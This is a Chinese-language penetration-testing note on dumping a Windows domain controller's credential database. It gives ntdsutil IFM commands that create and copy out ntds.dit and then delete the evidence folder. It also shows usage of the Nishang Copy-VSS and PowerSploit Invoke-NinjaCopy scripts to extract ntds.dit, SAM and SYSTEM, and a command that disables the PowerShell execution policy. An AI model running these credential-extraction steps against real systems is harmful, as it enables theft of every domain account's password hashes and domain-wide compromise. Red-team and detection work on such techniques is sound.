 <font style="color:rgb(51, 51, 51);">IFM利用流程如下：</font>

+ <font style="color:rgb(51, 51, 51);">执行如下命令</font>

```bash
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q 
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751424661372-d97fb039-a696-4728-943c-02fc90d5d60a.png)

test文件夹中内容

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751424750098-bdfe2f21-516d-4c1b-b33b-83e5f1f9e717.png)

+ 将ntds.dit复制出来

```bash
copy "C:\test\Active Directory\ntds.dit" C:\ntds.dit
```

+ 最后删除test文件夹即可

### 利用PowerShell下的两个脚本
#### <font style="color:rgb(51, 51, 51);">Nishang中的Copy-VSS.ps1</font>
<font style="color:rgb(51, 51, 51);">Nishang中的Copy-VSS.ps1脚本可以用于自动提取——NTDS.DIT，SAM和SYSTEM这些必要文件。这些文件将被解压到当前工作目录或其他任意的指定文件夹中。</font>

下载：[https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1)

powershell中导入脚本，然后使用powershell运行`copy-vss`命令，运行成功后会将SAM、SYSTEM、NTDS.dit文件复制到当前目录

关于禁用脚本问题，可以使用以下命令允许任意脚本运行

```bash
Set-ExecutionPolicy Unrestricted
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751430098278-49d639bf-6c32-4c1b-b41c-1f3f1a4823a8.png)

指定路径

```bash
Copy-VSS -DestinationDir C:\
```

#### **<font style="color:rgb(51, 51, 51);">PowerSploit中的Invoke-NinjaCopy.ps1</font>**
下载：[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)

<font style="color:rgb(51, 51, 51);">该脚本用于“万能复制”，像windows主机里SAM文件、域控中的Ntds.dit，里面数据很多有价值的信息，普通的COPY命令是无法复制的，使用万能复制可以复制这类文件。</font>

<font style="color:rgb(51, 51, 51);">使用如下：</font>

```bash
Invoke-NinjaCopy -Path <需要复制的文件> -LocalDestination <复制文件保存位置>
```
